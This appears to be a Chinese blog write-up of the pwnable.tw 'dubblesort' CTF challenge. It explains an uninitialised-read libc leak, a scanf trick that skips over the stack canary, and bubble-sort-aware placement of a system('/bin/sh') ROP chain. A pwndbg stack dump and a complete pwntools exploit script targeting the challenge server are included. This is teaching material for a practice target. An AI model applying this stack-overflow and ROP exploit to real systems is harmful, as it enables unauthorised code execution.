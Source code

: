 ```yaml
---
Layout: Post
title: pwnable.tw dubblesort
date: 2022-08-06 07:49:02
---
```

难度不大的一关，而且网上有比我的做法更简单（但具有技巧性）的做法。
但是还是做了好久好久……不是耗在题目上，主要是耗在搞libc版本上。

## 题目

保护全开的i386程序。
首先提示输入姓名，用read读取，并用 `printf("...%s...", buf)` 打印出来（这种形式没办法利用格式化字符串漏洞）。
然后提示输入数组大小和数据，在循环中用 `scanf("%u", a[i])` 读取，数组大小无极限（但循环变量用寄存器表示，无法跳过某地址读写）。
最后**对数组进行冒泡排序**，并将排序后的数组一个一个输出。

<!-- more -->

本题有两个漏洞：

1. read读取数据时不会自动补上 `\0`，所以打印的时候可以泄露一些栈上的数据。（但由于大小控制良好，无法栈溢出，无法泄露canary）
2. 数组大小无极限，可以进行栈溢出。

问题主要是：

1. 栈上有哪些数据可供泄露？
2. 如何应对canary？
3. 如何让我的gadget在经过排序后仍旧待在正确的位置？

### 第一个问题：泄露数据

由于这是俺第一次做提供了libc的题目，我前前后后摸索了很久。

本题栈上数据有很多，我选择泄露libc里的一个地址。
本地环境下，这个地址是GOT，然而在线环境下同一个位置的值变了，好在仍然是libc里的某地址，现场计算一下偏移仍然可以用：

```python
print(io.recvS())
io.send(b'a'*4*7 + b'\x01')
mes = io.recvrepeat(1)
libc_base = unpack(mes[34:34+4])-0x1 - libc_offset
print(hex(libc_base))
```

### 第二个问题：如何应对canary

看网上大佬的wp，可以利用单个的"+"或者"-"来欺骗 `scanf("%u", a[i])` ，引发“读取成功但读个寂寞”的效果，这是因为scanf会将这俩当作数字的正负号来对待。
这是一个技巧性很强的trick，我没有想到。我的方法是在读取数据循环到canary的位置的时候，输入一个任意非数字字符串（"stop"），由于程序没有写清空输入流的操作，所以包括该scanf之内的所有后续scanf都会跳过，引发“读取失败且读个寂寞”效果。

采用这种方法，就可以在保留canary在栈上的情况下，通过之后的冒泡排序，将比canary大的数据移动到canary之后。
但是缺点是canary之后的数据无法覆盖，只能想办法应付。

### 第三个问题：如何应对/利用冒泡排序

本题的冒泡排序将大的数字移到上边（地址高位），小的数据移到下面。
采用上述的应对canary方法，有一些数据是无法进行覆盖的，排序的时候必须考虑这些已有数据。

```gdb
pwndbg> stack 50
00:0000│ esp 0xffffce30 —▸ 0xffffce4c ◂— 0x1
01:0004│     0xffffce34 ◂— 0x1
02:0008│     0xffffce38 ◂— 0x0
03:000c│     0xffffce3c —▸ 0xf7ffdc08 —▸ 0xf7fd7000 ◂— jg     0xf7fd7047
04:0010│     0xffffce40 —▸ 0xf7ffcd00 (_rtld_global_ro) ◂— 0x0
05:0014│     0xffffce44 —▸ 0xffffcf6c —▸ 0xffffd184 ◂— 'HTTP_PROXY=http://192.168.21.1:7890/'
06:0018│     0xffffce48 ◂— 0x1
（以下为数组开始处）
07:001c│     0xffffce4c ◂— 0x1
08:0020│ edi 0xffffce50 —▸ 0xf7ffddd8 —▸ 0xf7ffdd64 —▸ 0xf7ffdc1c —▸ 0xf7ffdc08 ◂— ...
09:0024│     0xffffce54 —▸ 0xffffcea0 ◂— 0x1
0a:0028│     0xffffce58 ◂— 0x0
... ↓        2 skipped
0d:0034│     0xffffce64 —▸ 0xffffd151 ◂— '/home/nss/Desktop/pwnable.tw/dubblesort/dubblesort'
0e:0038│     0xffffce68 —▸ 0xf7fcd000 ◂— 0x1afdb0
0f:003c│     0xffffce6c ◂— 0x6b63614a ('Jack')
10:0040│     0xffffce70 —▸ 0xffff0a79 ◂— 0x0
11:0044│     0xffffce74 ◂— 0x2f /* '/' */
12:0048│     0xffffce78 ◂— 0x50 /* 'P' */
13:004c│     0xffffce7c —▸ 0xf7eac82f ◂— add    edi, 0x1207d1
14:0050│     0xffffce80 ◂— 0x1
15:0054│     0xffffce84 ◂— 0x8000
16:0058│     0xffffce88 —▸ 0xf7fcd000 ◂— 0x1afdb0
17:005c│     0xffffce8c —▸ 0x56555601 ◂— add    ebx, 0x199f
18:0060│     0xffffce90 —▸ 0x565557a9 ◂— add    ebx, 0x17f7
19:0064│     0xffffce94 —▸ 0x56556fa0 ◂— 0x1ea8
1a:0068│     0xffffce98 ◂— 0x1
1b:006c│     0xffffce9c —▸ 0x56555b72 ◂— add    edi, 1
1c:0070│     0xffffcea0 ◂— 0x1
1d:0074│     0xffffcea4 —▸ 0xffffcf64 —▸ 0xffffd151 ◂— '/home/nss/Desktop/pwnable.tw/dubblesort/dubblesort'
1e:0078│     0xffffcea8 —▸ 0xffffcf6c —▸ 0xffffd184 ◂— 'HTTP_PROXY=http://192.168.21.1:7890/'
（以下为canary以及无法覆盖的数据）
1f:007c│     0xffffceac ◂— 0xadd66300
20:0080│     0xffffceb0 —▸ 0xf7fcd3dc —▸ 0xf7fce1e0 ◂— 0x0
21:0084│     0xffffceb4 —▸ 0xffffd14b ◂— 'i686'
22:0088│     0xffffceb8 —▸ 0x56555b2b ◂— add    ebx, 0x1475
23:008c│     0xffffcebc ◂— 0x0
24:0090│     0xffffcec0 —▸ 0xf7fcd000 ◂— 0x1afdb0
25:0094│     0xffffcec4 —▸ 0xf7fcd000 ◂— 0x1afdb0
26:0098│ ebp 0xffffcec8 ◂— 0x0
27:009c│     0xffffcecc —▸ 0xf7e35637 (__libc_start_main+247) ◂— add    esp, 0x10
28:00a0│     0xffffced0 ◂— 0x1
29:00a4│     0xffffced4 —▸ 0xffffcf64 —▸ 0xffffd151 ◂— '/home/nss/Desktop/pwnable.tw/dubblesort/dubblesort'
2a:00a8│     0xffffced8 —▸ 0xffffcf6c —▸ 0xffffd184 ◂— 'HTTP_PROXY=http://192.168.21.1:7890/'
2b:00ac│     0xffffcedc ◂— 0x0
... ↓        2 skipped
2e:00b8│     0xffffcee8 —▸ 0xf7fcd000 ◂— 0x1afdb0
2f:00bc│     0xffffceec —▸ 0xf7ffdc04 ◂— 0x0
30:00c0│     0xffffcef0 ◂— 0x1
31:00c4│     0xffffcef4 ◂— 0x0
```

我把（栈上的）数据由小到大分为5类：

1. 极小值：0或1
2. 代码段：0x56xxxxxx
3. canary：随机，但可以假设大小在该位置
4. libc代码地址：0xf7xxxxxx，比如 `__libc_start_main`
5. 极大值：libc的got及以上的地址。（libc的RW段、程序的栈地址等）

而ROP用到的gadget地址（`system` 和 `"/bin/sh"`）都位于4、5中间，也就是大于 `__libc_start_main`，小于libc的got。

简单思考一下：极大值一定会排在最后，因此我们要达到的效果是（注意32位函数调用规则，地址后面是返回地址，然后才是函数参数）：

```
esp+0x1c | 0, 1......
...
esp+0x78 | 0x56xxxxxxxx
esp+0x7c | canary
esp+0x80 | libc_start_main or libc_base or whatever （I just used system）
...
ebp+0x04 | system
ebp+0x08 | system(ret_addr)
ebp+0x0c | "/bin/sh\x00"
esp+0x10 | big value like libc_got
...
```

按照这个效果，进行一下不可控数据中极大值和极小值的配平（过程略），就可以计算出需要输入哪些数据。
exp脚本如下：

```python
from pwn import *
context.arch='i386'
context.log_level='debug'

filename="./dubblesort"
# io = process([filename], env={"LD_PRELOAD":"./libc_32.so.6"})
elf=ELF(filename)

libc_name="./libc_32.so.6"
libc=ELF(libc_name)

io = remote('chall.pwnable.tw', 10101)

# g = gdb.attach(io, """b *main+245
# commands
#  stack 50
# end""")

def send_d(data):
 io.sendlineafter(b": ", str(data).encode('ascii'))

libc_offset = 0x1b0000 - 0x1e00
sys_offset = 0x3a940
sh_str_offset = 0x158e8b

print(io.recvS())
io.send(b'a'*4*7 + b'\x01')
mes = io.recvrepeat(1)
libc_base = unpack(mes[34:34+4])-0x1 - libc_offset
print(hex(libc_base))

io.sendline(b'43')

for i in range(0, 15):
 send_d(1)
for i in range(0, 8):
 send_d(libc_base + sys_offset)
send_d(libc_base + sh_str_offset)
io.sendlineafter(b": ", b"stop")

io.interactive()
```
